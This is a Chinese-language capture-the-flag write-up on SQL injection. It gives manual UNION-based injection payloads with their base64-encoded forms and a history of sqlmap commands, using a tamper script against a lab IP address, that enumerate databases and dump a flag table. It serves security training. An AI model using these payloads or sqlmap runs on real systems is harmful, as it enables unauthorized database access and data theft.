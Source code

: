 # CTF-3 SQL注入

### 手动注入：

第一行是sql注入语句，第二行是经过base64编码后的数据

```sql
1 and 1=2 union select 1, database()
MSBhbmQgMT0yIHVuaW9uIHNlbGVjdCAxLCBkYXRhYmFzZSgp

1 and 1=2 union select version(), current_user()
MSBhbmQgMT0yIHVuaW9uIHNlbGVjdCB2ZXJzaW9uKCksIGN1cnJlbnRfdXNlcigp

1 and 1=2 union select 1, database()
MSBhbmQgMT0yIHVuaW9uIHNlbGVjdCAxLCBkYXRhYmFzZSgp

1 and 1=2 union select 1, group_concat(table_name) from information_schema.tables where table_schema='websec'
MSBhbmQgMT0yIHVuaW9uIHNlbGVjdCAxLCBncm91cF9jb25jYXQodGFibGVfbmFtZSkgZnJvbSBpbmZvcm1hdGlvbl9zY2hlbWEudGFibGVzIHdoZXJlIHRhYmxlX3NjaGVtYT0nd2Vic2VjJw==

1 and 1=2 union select 1, group_concat(column_name) from information_schema.columns where table_name='flag'
MSBhbmQgMT0yIHVuaW9uIHNlbGVjdCAxLCBncm91cF9jb25jYXQoY29sdW1uX25hbWUpIGZyb20gaW5mb3JtYXRpb25fc2NoZW1hLmNvbHVtbnMgd2hlcmUgdGFibGVfbmFtZT0nZmxhZyc=

1 union select 1,value from flag
MSB1bmlvbiBzZWxlY3QgMSx2YWx1ZSBmcm9tIGZsYWc=
```

其中select 1的1用作占位，group_concat是把很多字符串拼接成一个字符串。

关于current_user()查询到的root用户是否是真的root用户，其实可以这么考虑，如果我在数据库中有一个admin用户，我的密码是admin，如果别人找到漏洞能修改admin密码为123，那么admin用户还是管理员用户吗？（也即用户名如果是root，那么必定是root用户，除非有两个表，一个表存储管理员用户，另一个存储普通用户，那么在普通用户表中可以有一个叫root的用户，但mysql的information_schema不是这样的）

此处存疑：可以通过爆破用户表查看，如果只有一个用户，那么必定是管理员吧。

### sqlmap：

使用sqlmap的经过如下（具体操作详见视频）：

```shell
 2002  sqlmap -u http://124.16.71.70:40005/?id=MQ%3d%3d --tamper=base64encode.py --dbs
 2003  sqlmap -u http://124.16.71.70:40005/?id=MQ%3d%3d --dbms=mysql  --dbs 
 2004  sqlmap -u http://124.16.71.70:40005/?id=MQ%3d%3d --dbms=mysql --tamper base64encode.py  --dbs 
 2005  sqlmap -u http://124.16.71.70:40005/?id=MQ%3d%3d --tamper base64encode.py --current-db
 2006  sqlmap -u http://124.16.71.70:40005/?id=MQ%3d%3d --dbms=mysql --tamper base64encode.py  --current-db
 2007  sqlmap -u "http://124.16.71.70:40005/?id=MQ%3d%3d" --tamper base64encode.py --current-db
 2008  sqlmap -u "http://124.16.71.70:40005/?id=MQ%3d%3d" --tamper base64encode.py --level
 2009  sqlmap -u "http://124.16.71.70:40005/?id=MQ%3d%3d" --tamper base64encode.py --level=5
 2010  sqlmap -u "http://124.16.71.70:40005/?id=MQ%3d%3d" --tamper base64encode.py --level=5 --current-db --dbs
 2011  sqlmap -u "http://124.16.71.70:40005/?id=MQ%3d%3d" --tamper base64encode.py --level=5 -D websec --tables
 2012  sqlmap -u "http://124.16.71.70:40005/?id=MQ%3d%3d" --tamper base64encode.py --level=5 -D websec -T flag
 2013  sqlmap -u "http://124.16.71.70:40005/?id=MQ%3d%3d" --tamper base64encode.py --level=5 -D websec -T flag --columns
 2014  sqlmap -u "http://124.16.71.70:40005/?id=MQ%3d%3d" --tamper base64encode.py --level=5 -D websec -T flag -C value
 2015  sqlmap -u "http://124.16.71.70:40005/?id=MQ%3d%3d" --tamper base64encode.py --level=5 -D websec -T flag -C value --dump
```

